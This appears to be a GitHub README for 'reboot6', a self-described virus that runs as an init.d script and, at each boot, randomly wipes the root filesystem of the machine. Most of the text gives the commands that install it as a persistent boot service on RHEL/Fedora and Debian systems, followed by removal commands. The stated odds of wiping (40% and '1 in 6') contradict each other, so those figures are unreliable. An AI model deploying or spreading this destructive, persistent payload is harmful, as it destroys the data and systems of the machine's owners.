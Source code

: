 # reboot6 #

An init.d reboot virus that's inspired from Russian Roulette Linux.
This is a post exploit/virus that needs root privs and full access on the host/remote host in order for this to work.
What it does: creates an init process that has a 40% chance of wiping the root ( / ) of the file system durring the bootup (reboot) process.
Why 40%? Why not 100%? Because I'm not a evil person. And this gives the Victim machine the possibilty to remove the exploit/virus.
Like Russian Roulette (Linux), there is a 1 in 6 chance you lose. 

### This software is intended only for educational purposes. USE AT YOUR OWN RISK. ###
### The project author and all contributors cannot be held liable for damage or loss of data resulting from the use of this repository's code. ###

# To INSTALL the script:
### ALL SYSTEMS ###
```sh
cp reboot6 /etc/init.d/
```
### RHEL and Fedora ###
```sh
chkconfig --add /etc/init.d/reboot6
```
```sh
chkconfig --level 125 /etc/init.d/reboot6 on
```
```sh
ln -s /etc/init.d/reboot6 /etc/rc2.d/S35reboot6
```
### Debian and Deriatives ###
```sh
update-rc.d reboot6 defaults
```
# To UNINSTALL the script:
### RHEL and Fedora ###
```sh
chkconfig --level 125 /etc/init.d/reboot6 off
```
```sh
chkconfig --del /etc/init.d/reboot6
```
### Debian and Deriatives ###
```sh
update-rc.d reboot6 disable
```
```sh
update-rc.d reboot6 remove
```
### ALL SYSTEMS ###
```sh
rm /etc/init.d/reboot6
```
